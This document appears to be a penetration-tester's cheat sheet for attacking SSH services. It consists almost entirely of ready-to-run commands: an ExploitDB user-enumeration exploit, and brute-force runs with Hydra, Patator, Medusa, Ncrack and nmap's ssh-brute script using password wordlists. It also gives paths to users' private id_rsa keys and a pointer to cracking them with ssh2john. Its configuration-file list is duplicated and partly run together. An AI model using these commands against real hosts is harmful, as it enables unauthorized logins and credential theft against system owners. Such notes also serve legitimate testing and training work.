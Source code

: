 # SSH -TCP 22

## User Enumeration

```
python /usr/share/exploitdb/exploits/linux/remote/40136.py -U /usr/share/wordlists/metasploit/unix_users.txt $ip
```

## Banner Grabbing

```
nmap -sV -p T:22 $ip
```

## Vulnerable version

```
7.2p1
```

## Connection

#### Connect to SSH

```
ssh <user name>@$ip
```

**Connect to SSH with private key**

```
chmod 400 <id_rsa_key>
ssh –i key <user name>@$ip
```

## BruteForce

#### Patator

```
patator ssh_login host=$ip user=FILE0 0=user.txt password=FILE1 1=pass.txt
```

**Hydra**

Known Username

```
hydra -l <username> -P /usr/share/wordlists/rockyou.txt ssh://<target ip address>
```

```
hydra -v -V -l root -P pass.txt $ip ssh
```

Username and Password attack

```
hydra -L user.txt -P pass.txt ssh://<target ip address>
```

```
hydra -L user.txt -P pass.txt $ip ssh
```

**Medusa**

```
medusa -h $ip -U user.txt -P pass.txt -M ssh
```

**Ncrack**

```
ncrack –v –U user.txt –P pass.txt $ip:22
```

**Nmap**

```
nmap -p 22 –script ssh-brute –script-args userdb=users.lst,passdb=pass.lst –script-args ssh-brute.timeout=4s $ip
```

## Path of id\_rsa

```
$user/.ssh/id_rsa
$user/.ssh/authorized key
```

## Crack id\_rsa

```
/usr/share/john/ssh2john.py
```

## Configuration files

```
ssh_config
sshd_config
authorized_keys
ssh_known_hosts
.shostsssh_config
sshd_config
authorized_keys
ssh_known_hosts
.shosts
```

## Exploitation

* Gather version numbers
* Searchsploit
* Default Creds
* Creds previously gathered
* Download the software

